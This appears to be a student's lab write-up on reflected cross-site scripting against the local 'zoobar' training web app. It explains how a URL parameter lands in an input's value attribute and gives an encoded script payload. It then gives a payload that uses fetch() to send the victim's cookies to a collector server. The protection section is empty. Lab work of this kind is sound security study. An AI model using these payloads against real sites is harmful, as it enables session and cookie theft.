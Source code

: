 # 3. Browser Protection
## 3.1. Remote Execution - Reflected Cross-site Scripting 

The goal is to craft a URL that, when accessed, will cause the victim's browser to execute some JavaScript you as the attacker has supplied.
* When examining a URLs, there is one where the parameter is sent along with the URL, and then reflected back to the user view. 
* The url is http://localhost:8080/zoobar/index.cgi/users?user=user_name
* The user_name parameter is reflected back to the search box in the users page and its actually part of the value attribute of the input tag
* By replacing the user_name with a javascript code, we can execute the javascript code in the victim's browser
* The javascript code that will be executed is alert(document.cookie); which will pop up an alert box with the victim's cookies
* in order to execute the javascript code, we need to escape the double quotes and the angle brackets.
* The final url will be http://localhost:8080/zoobar/index.cgi/users?user=%22%3Cp%3E%3Cscript%3Ealert(document.cookie);%3C/script%3E%3C/p%3E%22
* this will translate to ``` "<p><script>alert(document.cookie);</script></p>" ``` which will be reflected and print the victim's cookies in an alert box

### Following are screenshots of the attack:

#### finding the reflected parameter:

<img alt="image" src="https://user-images.githubusercontent.com/13490629/220351090-0779ae1b-2759-4572-a71c-edab7bb23eda.png" width="500"/>

#### finding the dom element that affected by the reflected parameter:

<img alt="image" height="500" src="https://user-images.githubusercontent.com/13490629/220351201-c61efa0b-17c8-4b2d-b61e-2cf8f8ff17aa.png"/>

#### testing the attack:

![image](https://user-images.githubusercontent.com/13490629/220351284-d2ba3c53-f03c-4e76-b878-cf627d515ef0.png)


## 3.2. Steal Cookies

" size=10><script>fetch(`http://localhost:3000/cookie/${document.cookie}`)</script><input type="hidden


## 3.3. Protect

